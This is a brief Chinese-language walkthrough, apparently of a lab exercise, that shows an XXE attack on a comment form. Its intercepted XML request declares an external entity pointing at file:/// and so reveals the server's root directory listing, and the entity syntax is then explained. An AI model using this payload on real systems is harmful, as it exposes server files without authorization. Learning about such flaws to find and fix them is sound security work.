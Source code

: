 
要求找到根目录下的内容有什么  
先提交一个评论，这里提交的评论时day，抓包发现评论的内容出现在text标签中    
![alt text](image-8.png)  
可以发现请求体使用xml格式  

---  

再次发送拦截，并且修改请求体为以下内容  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment [
<!ENTITY root SYSTEM "file:///">
]>
<comment>
<text>&root;</text>
</comment>
```  

提交之后发现评论区出现了根目录的内容  
![alt text](image-9.png) 

---  

第一行是一个声明，这里说明了xml的版本  
dtd部分使用下面的格式  
```xml  
<!DOCTYPE a [

]>
```  
a一般是根标签名字，也可以使用其他名字，但一般要求使用根标签的名字  
SYSTEM声明外部实体，会将后面的字符串识别为一个资源的路径，并加载资源赋给实体的值，上述内容中，定义了一个实体root，SYSTEM将根目录下的内容返回给root，当引用root时，解析器会使用实体的值代替  

